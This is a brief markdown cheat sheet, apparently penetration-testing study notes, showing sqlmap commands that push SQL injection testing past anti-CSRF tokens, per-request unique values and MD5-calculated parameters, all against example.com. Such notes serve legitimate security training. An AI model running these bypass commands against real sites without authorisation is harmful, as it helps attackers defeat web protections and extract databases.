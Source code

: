 # Bypass Web Application Protections
-----

### Anti-CSRF Token Bypass
- SQLMap will automatically attempt to bypass the protection.

```bash
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

--csrf-token: specify the token parameter name

### Unique Value Bypass
- Instead of using csrf-token, some web applications use unique value for each of the requests. We can use `--randomize` flag to bypass it.

```bash
sqlmap -u "https://www.example.com/?id=1&rp=8421" --randomize=rp --batch -v 5 | grep URI
```

--randomize: specify the parameter `rp`, whose value needs to be unique.

### Calculated Parameter Bypass
- A lot of applications use MD5 hash to hash certains values of parameter. We can use `--eval` flag to perform such task

```bash
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

--eval: evaluate the hash function before sending the request. In this case, it is the id that will be hashed.